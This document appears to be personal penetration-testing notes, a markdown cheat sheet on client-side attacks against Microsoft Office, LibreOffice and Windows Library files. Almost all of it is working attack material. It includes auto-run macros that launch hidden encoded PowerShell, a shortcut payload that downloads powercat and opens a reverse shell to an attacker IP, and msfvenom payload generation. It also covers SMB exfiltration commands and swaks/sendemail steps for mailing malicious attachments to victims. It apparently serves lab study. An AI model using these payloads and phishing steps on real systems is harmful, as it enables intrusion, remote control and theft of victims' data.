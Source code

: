 # Target Reconnaissance
## Information Gathering

- Sweep for files e.g. pdf/ doc with Gobuster pattern
- Read file metadata
  
  ``` exiftool -a -u xxx.pdf ```

- ``` stat {file} ``` see when the file access/modify/change etc

- ``` file {file} ```

# Useful splitter
- Splitter.py 
    ```
        s = "powershell.exe -nop -w hidden -e aQBmACgAWwBJAG4AdABQAHQAcgBdADoA7AA=="
        n = 50
        for i in range(0, len(s), n):
            chunk = s[i:i + n]
            print('Str = Str + "' + chunk + '"')
    ```

# Exploit Microsoft Office

## Macro Abuse
- With old .doc file
- macro func must enabled
- windows use utf-16le base64 decode encode
- smbserver to transfer files:
   sometimes anonymous dont work due to policy
   ``` 
   impacket-smbserver -smb2support -username kali -password kali share .
   \\ip-address-of-your-linux-machine\SHARE
   ```
- Advance tech transfer files 
   ```
    net use z: \\192.168.45.243\SHARE /user:kali kali
    Copy-Item -Path 20240728062407_BloodHound.zip -Destination z:\BloodHound.zip
    
    [folder]
    Copy-Item -Path c:\inetpub\wwwroot -Destination z:\files -Recurse

    [if cmd only --> zip file first then] 
    xcopy C:\inetpub.zip Z:\

    ```



- Macro example: 
    ``` 
        Sub AutoOpen()
            MyMacro
        End Sub

        Sub Document_Open()
            MyMacro
        End Sub

        Sub MyMacro()
            Dim Str As String
            
            Str = Str + "powershell.exe -nop -w hidden -enc SQBFAFgAKABOAGU"
                Str = Str + "AdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAd"
                Str = Str + "AAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwB"
            ...
                Str = Str + "QBjACAAMQA5ADIALgAxADYAOAAuADEAMQA4AC4AMgAgAC0AcAA"
                Str = Str + "gADQANAA0ADQAIAAtAGUAIABwAG8AdwBlAHIAcwBoAGUAbABsA"
                Str = Str + "A== "

            CreateObject("Wscript.Shell").Run Str
        End Sub
    ``` 
## Execution vis Windows Library Files
- create a folder for this
1. Prepare Send email to victim containing 'config.Library-ms' which direct to malicious wsgidev 
    ``` 
    wsgidav --host=0.0.0.0 --port 80 --auth=anonymous --root /home/kali/webdav/
    ```

2. Edit IP variable to our kali and save as 'config.Library-ms' (extension = all files) then double click the file and copy paste itself into the folder
    ```
        <?xml version="1.0" encoding="UTF-8"?>
        <libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
        <name>@windows.storage.dll,-34582</name>
        <version>6</version>
        <isLibraryPinned>true</isLibraryPinned>
        <iconReference>imageres.dll,-1003</iconReference>
        <templateInfo>
        <folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
        </templateInfo>
        <searchConnectorDescriptionList>
        <searchConnectorDescription>
        <isDefaultSaveLocation>true</isDefaultSaveLocation>
        <isSupported>false</isSupported>
        <simpleLocation>
        <url>http://192.168.119.2</url>
        </simpleLocation>
        </searchConnectorDescription>
        </searchConnectorDescriptionList>
        </libraryDescription>
    ```
3. edit the .ink file (shortcut) to run reverse shell & change the file name to install
    ``` 
        powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.119.3:8000/powercat.ps1');
        powercat -c 192.168.119.3 -p 4444 -e powershell"
    ```
4. Prepare web server hosting powercat file
   ``` 
    cp /usr/share/powershell-empire/empire/server/data/module_source/management/powercat.ps1 .
    python3 -m http.server 8000
    ```
MUST USE non 80 port!!

## SMTP tool
Send email with given information e.g. receiver/sender, smtp server usrname pw
- SWAKS
  ``` sudo swaks -t dave.wizard@supermagicorg.com --from test@supermagicorg.com -ap --attach @config.Library-ms --server 192.168.151.199 --body body.txt --header "Subject: Problems" --suppress-data ```
- sendemail
    ``` sendemail -f 'jonas@localhost' \
        -t 'mailadmin@localhost' \
        -s 192.168.244.140:25 \
        -u 'a spreadsheet' \
        -m 'Please check this spreadsheet' \
        -a exploit.ods 
    ```
- Test login ``` swaks -server {ip} --auth LOGIN --auth-user {user email} --auth-password {password} --quit-after AUTH ```

## Exploit Libre Office
- https://medium.com/@Dpsypher/proving-grounds-practice-craft-4a62baf140cc
1. Prepare payload ``` msfvenom -p windows/shell_reverse_tcp LHOST=192.168.45.241 LPORT=4444 -f hta-psh -o evil.hta ```
2. Split the file
3. open new .ods file and add macro under the file
   ```
    Sub Macro 
    Dim Str as String
    Str = Str + "cmd /c powershell.exe -nop -w hidden -enc SQBFAFgAKABOAGU"
    Str = Str + "AdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAd"
    Str = Str + "AAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwB"
...
    Str = Str + "QBjACAAMQA5ADIALgAxADYAOAAuADEAMQA4AC4AMgAgAC0AcAA"
    Str = Str + "gADQANAA0ADQAIAAtAGUAIABwAG8AdwBlAHIAcwBoAGUAbABsA"
    Str = Str + "A== "
    Shell(Str)

   ```
4. Enable auto-run once this excel is open: Tools → Customize